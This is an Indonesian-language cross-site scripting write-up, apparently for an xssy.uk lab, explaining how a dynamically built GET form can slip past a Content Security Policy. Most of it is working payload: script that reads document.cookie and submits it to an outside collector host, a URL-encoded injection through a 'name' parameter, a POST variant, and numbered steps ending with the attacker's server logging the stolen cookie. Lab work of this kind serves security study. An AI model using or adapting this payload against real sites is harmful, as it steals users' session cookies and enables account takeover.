 ### Penjelasan Teknik
HTML Form dengan method GET akan melakukan navigasi ke action URL dengan data form sebagai query parameters. Dengan membuat form secara dinamis dan langsung submit, kita dapat melakukan navigasi sekaligus exfiltrate data.

Form GET submission adalah navigasi browser standar, sehingga sering tidak dibatasi oleh CSP.

### Full URL, Parameter & Payload

**Payload:**
```javascript
<script>
var form = document.createElement('form');
form.method = 'GET';
form.action = 'https://eqh42jmm.xssy.uk/';
var input = document.createElement('input');
input.name = 'c';
input.value = document.cookie;
form.appendChild(input);
document.body.appendChild(form);
form.submit();
</script>
```

**URL Encoded:**
```
https://pzcihwu2.xssy.uk/target.ftl?name=%3Cscript%3E%0Avar%20form%20%3D%20document.createElement%28%27form%27%29%3B%0Aform.method%20%3D%20%27GET%27%3B%0Aform.action%20%3D%20%27https%3A%2F%2Feqh42jmm.xssy.uk%2F%27%3B%0Avar%20input%20%3D%20document.createElement%28%27input%27%29%3B%0Ainput.name%20%3D%20%27c%27%3B%0Ainput.value%20%3D%20document.cookie%3B%0Aform.appendChild%28input%29%3B%0Adocument.body.appendChild%28form%29%3B%0Aform.submit%28%29%3B%0A%3C%2Fscript%3E
```

**Variasi POST (tidak navigate):**
```javascript
<script>
var form = document.createElement('form');
form.method = 'POST';  // POST might not navigate
form.action = 'https://eqh42jmm.xssy.uk/';
var input = document.createElement('input');
input.name = 'c';
input.value = document.cookie;
form.appendChild(input);
document.body.appendChild(form);
form.submit();
</script>
```

### Cara Kerja
1. XSS payload di-inject melalui parameter `name`
2. Script membuat element `<form>` dengan method GET
3. Action form di-set ke URL attacker server
4. Input field dibuat dengan name dan value (cookie)
5. Input ditambahkan ke form
6. Form ditambahkan ke body page
7. Form.submit() dipanggil untuk submit form
8. Browser melakukan GET request ke action URL
9. Data form (cookie) dikirim sebagai query parameter
10. Browser navigate ke URL hasil (dengan data)
11. Server attacker menerima dan log data
